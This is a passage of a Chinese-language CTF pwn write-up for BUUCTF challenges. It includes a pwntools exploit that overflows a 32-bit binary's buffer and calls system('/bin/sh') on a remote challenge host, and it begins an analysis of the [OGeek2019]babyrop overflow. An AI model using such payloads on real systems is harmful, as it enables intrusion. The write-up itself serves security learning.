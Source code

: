 32位，动态链接，NX打开

![image-20220313013745202](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853317.png)

溢出比较明显

![image-20220313013921607](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853936.png)

![image-20220313013925604](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853243.png)

而且程序中存在/bin/sh

![image-20220313014017283](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853098.png)

编写脚本

```python
from pwn import *
context(log_level='debug',arch='i386',os='linux') 
host='node4.buuoj.cn'
port=26880
io=remote(host,port)
#io=process()
elf=ELF("./pwn")

junk=b'A'*140
system_addr = elf.plt["system"]
bin_sh = 0x804a024
payload = junk + p32(system_addr) + cyclic(4) + p32(bin_sh)

io.sendlineafter(b"Input:",payload)
io.interactive()
```

# *[OGeek2019]babyrop

32位，动态链接，NX打开

![image-20220313014139450](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853721.png)

三个子函数，fd为随机数

![在这里插入图片描述](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853307.png)

71F函数，由于srtlen()函数遇到 \0 就停止，所以如果buf以 \0 开头，v1就直接等于0，可以顺利return

![在这里插入图片描述](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853476.png)

7D0函数，传进的参数v2(就是上一个函数的返回值v5就是buf[6]的下一个地址的值)作为写入buf的数据的长度，因此达到一定程度时，可以造成溢出

![在这里插入图片描述](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191853041.png)

编写脚本
